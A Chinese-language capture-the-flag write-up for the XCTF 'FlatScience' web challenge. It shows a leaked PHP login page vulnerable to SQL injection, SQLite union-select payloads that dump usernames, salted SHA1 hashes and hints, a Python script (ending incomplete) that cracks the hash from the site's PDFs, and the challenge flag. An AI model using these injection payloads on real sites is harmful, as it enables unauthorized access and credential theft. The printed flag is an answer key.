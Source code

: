 # FlatScience

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=25991ba8-527f-443a-a66b-9c9d79a29162_2)

我真的过于菜了。这题其实不难。

![website](../../images/FlatScience.png)

这好像是个论文网站，一个一个链接点击去发现还真是pdf格式的论文。到处乱翻没啥收获，看下有没有robots.txt。

- User-agent: *<br>Disallow: /login.php<br>Disallow: /admin.php

这下就暴露了两个很重要的文件了。login.php就是普通登录框，admin.php是管理员登录，很有可能是我们的目标。admin.php里有这样一句话“do not even try to bypass this”，意为不要想着绕过登录。ctf里有好多此地无银三百两的注释，所以我以为这里就是要绕过登录……试了半天发现不行，结果去login.php一下就报错了。原来这次的注释是真的(⌒-⌒; )

然后猜闭合。'号报错但"没有报错，看来是单引号闭合形式。直接上union select，在列数为2的时候没有报错，但是不知道为什么返回了首页。回到login.php检查源代码，发现了一个可疑的注释：TODO: Remove ?debug-Parameter!

?debug参数……get传参？

```php
<?php
ob_start();
?>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">

<html>
<head>
<style>
blockquote { background: #eeeeee; }
h1 { border-bottom: solid black 2px; }
h2 { border-bottom: solid black 1px; }
.comment { color: darkgreen; }
</style>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
<title>Login</title>
</head>
<body>


<div align=right class=lastmod>
Last Modified: Fri Mar  31:33:7 UTC 1337
</div>

<h1>Login</h1>

Login Page, do not try to hax here plox!<br>


<form method="post">
  ID:<br>
  <input type="text" name="usr">
  <br>
  Password:<br> 
  <input type="text" name="pw">
  <br><br>
  <input type="submit" value="Submit">
</form>

<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
<!-- TODO: Remove ?debug-Parameter! -->




<hr noshade>
<address>Flux Horst (Flux dot Horst at rub dot flux)</address>
</body>
```

这就出来源代码了？根据源代码可知，我们的查询结果会被放到根目录的cookie中。难怪刚刚没有回显反而回到了首页。查看cookie的值可以发现是“+2”，那么2就是会回显的列。接下来就是日常的一条龙服务了。注意这里使用的是sqlite，和sql有些许不同。例如sqlite中sqlite_master表保存数据库表的关键信息，而不是information_schema。

- ### sqlite_master
  > CREATE TABLE sqlite_master (<br>type text,<br>name text,<br>tbl_name text,<br>rootpage integer,<br>sql text<br>);

查询表时，type 字段永远是’table’,name 永远是表的名字。tbl_name可以用于索引查询，即type 等于 ‘index’。name 则是索引的名字，tbl_name 是该索引所属的表的名字。

- ' union select 1,group_concat(name) from sqlite_master where type='table'--+

看到有个叫Users的表。

- ' union select 1,group_concat(sql) from sqlite_master where name='Users'--+
> +CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29

看看这些字段都是啥。

- ' union select 1,id from Users limit 1,1--+
- ' union select 1,name from Users limit 1,1--+
- ' union select 1,password from Users limit 1,1--+
- ' union select 1,hint from Users limit 1,1--+

> id name password hint<br>1 admin 3fab54a50e770d830c0416df817567662a9dc85c +my+fav+word+in+my+fav+paper?!<br>2 fritze 54eae8935c90f467427f05e4ece82cf569f89507 +my+love+is…?<br>3 hansi 34b0bb7c304949f9ff2fc101eef0f048be10d3bd +the+password+is+password

这里利用了limit进行移位查询。

- ### limit
  > LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。<br>LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。<br>如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。<br>初始记录行的偏移量是 0(而不是 1)

所以' union select 1,name from Users limit 1,1--+可以查询Users中name字段第一行的数据，' union select 1,name from Users limit 2,1--+可以查询Users中name字段第二行的数据……以此类推。

或者也可以直接 ' union select 1,group_concat(name) from Users--+ ，一次查完全部数据。

根据 \$res = \$db->query("SELECT id,name from Users where name='".\$user."' and password='".sha1($pass."Salz!")."'"); 可以得知 明文密码+Salz! 的sha1值就是password。偷懒的方法是放到[这里](https://www.somd5.com/)解密，得出密码ThinJerboa。而正确做法是爬取全部pdf论文然后一个一个试（根据my+fav+word+in+my+fav+paper?!提示得出）

直接上大佬的代码吧，我很明显是属于偷懒那拨人的。

```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib

def get_pdf():
    return [i for i in os.listdir("./") if i.endswith("pdf")]


def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text


def find_password():
    pdf_path = get_pdf()
    for i in pdf_path:
        print "Searching word in " + i
        pdf_text = convert_pdf_2_text(i).split(" ")
        for word in pdf_text:
            sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
            if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
                print("Find the password :" + word)
                exit()

if __name__ == "__main__":
```

- ### Flag
- > flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}
